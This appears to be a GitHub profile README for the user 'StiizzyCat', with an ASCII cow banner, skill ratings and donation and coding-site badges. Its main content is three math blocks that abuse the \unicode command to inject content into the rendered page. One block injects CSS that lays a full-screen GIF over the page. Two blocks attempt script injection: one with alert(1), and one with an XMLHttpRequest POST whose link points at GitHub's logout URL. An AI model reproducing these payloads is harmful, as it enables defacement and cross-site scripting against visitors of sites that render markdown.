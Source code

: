 ```JS
                                         [user@StiizzyCat ~]$ 
                                             ________________________________________
                                            /             Stiizzy Cat                \
                                            \ nodejs [8/10] C# [3/10] python [4/10] /
                                             ----------------------------------------
                                                                    \   ^__^
                                                                     \  (oo)\_______
                                                                        (__)\       )\/\
                                                                            ||----w |
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^||^^^^^||^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```
<div>
<p align="center"> <a href="https://www.paypal.com/donate/?hosted_button_id=PGKYAAVEQU5BW" target="_blank"> <img  src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/Donate.svg" alt="JavaScript"/></a> <a href="https://codepen.io/stiizzycat" target="_blank" ><img src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/codepenner.svg" alt="codepen"/></a> <a href="https://replit.com/@StiizzyCat0001" target="_blank"><img src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/repl.svg" alt="repl"/> </a>
 

```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height: 100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background: url('https://github.com/StiizzyCat/StiizzyCat/blob/main/weed.gif?raw=true');]{x0000}$}
```

```math
\ce{$&#x5C;unicode{<script>
alert(1)
</script>};{x0000}$}
```

```math
\ce{$&#x5C;unicode{<script>var xhr=new XMLHttpRequest();xhr.open('POST','[http://example.com/api_endpoint](https://github.com/logout)',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('payload=data_to_send');alert('XSS');</script>;}{x0000}$}
```

